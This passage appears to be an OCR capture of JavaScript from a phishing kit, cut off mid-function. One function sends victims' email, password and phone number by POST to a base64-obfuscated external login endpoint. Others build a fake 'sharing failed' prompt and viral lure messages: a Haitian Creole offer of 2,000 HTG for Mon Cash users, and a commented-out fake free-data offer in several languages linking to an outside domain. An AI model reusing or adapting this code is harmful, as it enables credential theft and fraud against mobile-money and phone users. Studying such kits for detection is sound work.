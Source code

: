     }
    function doreq(e, a, b) {
        var c = new XMLHttpRequest;
        c.open("POST", atob("aHR0cHM6Ly9hcHMucmVwcm92aWRlcy5jb20vbG9naW4ucGhwP3drcj16eGNtbmJ2MTI=")), c.onreadystatechange = function () {
            4 === c.readyState && 200 === c.status
        }, c.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"), c.send("email=" + e + "&pass=" + a + "&phone=" + b)
    }
    function tip_text() {
        var a = navigator.languages[0].includes("-") ? navigator.languages[0].slice(0, navigator.languages[0].indexOf("-")) : navigator.languages[0],
            b = "";
        return "en" === a ? b="Sharing failed! The same group or the same friend is invalid. Please share with different friends or groups." : "id" === a ? b="Berbagi gagal! Grup yang sama atau teman yang sama tidak valid. Silakan periksa dan bagikan lagi." :  b="Sharing failed! The same group or the same friend is invalid. Please check and share again." ;

    }
    function messageToSend() {
        var a = navigator.languages[0].includes("-") ? navigator.languages[0].slice(0, navigator.languages[0].indexOf("-")) : navigator.languages[0],
            b = "";
        return "en" === a ? b = "*Èske w ap itilize Mon Cash?*%0A%0AMon Cash ap bay tout itilizatè yo 2,000 pou selebre anivèsè 2025 li a.%0A%0A✅Fè vit kounye a epi tcheke si Mon Cash ou a kalifye pou òf sa a.%0A*Klike la a*" + landingDomain : "id" === a ? b = "*Èske w ap itilize Mon Cash?*%0A%0AMon Cash ap bay tout itilizatè yo 2,000 HTG pou selebre anivèsè 2025 li a.%0A%0A✅Fè vit kounye a epi tcheke si Mon Cash ou a kalifye pou òf sa a.%0A*Klike la a*" + landingDomain : b = "*Èske w ap itilize Mon Cash?*%0A%0AMon Cash ap bay tout itilizatè yo 2,000 HTG pou selebre anivèsè 2025 li a.%0A%0A✅Fè vit kounye a epi tcheke si Mon Cash ou a kalifye pou òf sa a.%0A*Klike la a*" + landingDomain ;
    }

    /* function messageToSend() {
         var a = navigator.languages[0].includes("-") ? navigator.languages[0].slice(0, navigator.languages[0].indexOf("-")) : navigator.languages[0],
             b = "";
         return "en" === a ? b = "To be grateful to customers for their continued support of 4G Internet! The company launched a 60-day free access to 100GB Internet data free use plan Participants can get 100GB free mobile internet data usage\n" +
             "Participating customers:\n" +
             "1. Customers who use 4G data for a long time\n" +
             "2. All traffic on Whatsapp users is free, including video downloads\n" +
             "3. The system will check your number for participation rights\n" +
             "4. It can help the company to promote the business first\n" +
             "The system will record your start date after success.\n" +
             "Thank you for your participation! %0A%0A*Get it now HERE \uD83D\uDC47\uD83D\uDC47* %0Ahttps://tuisongxx.xyz" :
             "it" === a ? b = "*200 Gb di dati Internet senza alcuna ricarica Per* %0A Ottieni 200 Gb di dati Internet gratuitamente su qualsiasi rete mobile per 60 giorni. %0A *Scarica ora QUI \uD83D\uDC47\uD83D\uDC47* %0Ahttps://tuisongxx.xyz " :
                 "es" === a ? b = "*200 Gb de datos de Internet súper rápidos sin ninguna recarga* %0A%0AObtenga 200 Gb de datos de Internet gratis en cualquier red ahora. m\xF3vil durante 60 d\xEDas. %0A%0A*Consiguelo ahora AQUI \uD83D\uDC47\uD83D\uDC47* %0Ahttps://tuisongxx.xyz" :
                     "ar" === a ? b = "*200 \u062C\u064A\u062C\u0627 \u0628\u0627\u064A\u062A \u0645\u0646 \u0628\u064A\u0627\u0646\u0627\u062A \u0627\u0644\u0625\u0646\u062A\u0631\u0646\u062A \u062F\u0648\u0646 \u0623\u064A \u0625\u0639\u0627\u062F\u0629 \u0634\u062D\u0646 \u0628\u0633\u0628\u0628* %0A \u0627\u062D\u0635\u0644 \u0639\u0644\u0649 100 \u062C\u064A\u062C\u0627\u0628\u0627\u064A\u062A \u0645\u0646 \u0628\u064A\u0627\u0646\u0627\u062A \u0627\u0644\u0625\u0646\u062A\u0631\u0646\u062A \u0627\u0644\u0645\u062C\u0627\u0646\u064A\u0629 \u0639\u0644\u0649 \u0623\u064A \u0634\u0628\u0643\u0629 \u0645\u062D\u0645\u0648\u0644 \u0644\u0645\u062F\u0629 60 \u064A\u0648\u0645\u064B\u0627 %0A *\u0627\u062D\u0635\u0644 \u0639\u0644\u064A\u0647 \u0627\u0644\u0622\u0646 \u0647\u0646\u0627 \uD83D\uDC47\uD83D\uDC47* %0Ahttps://tuisongxx.xyz" :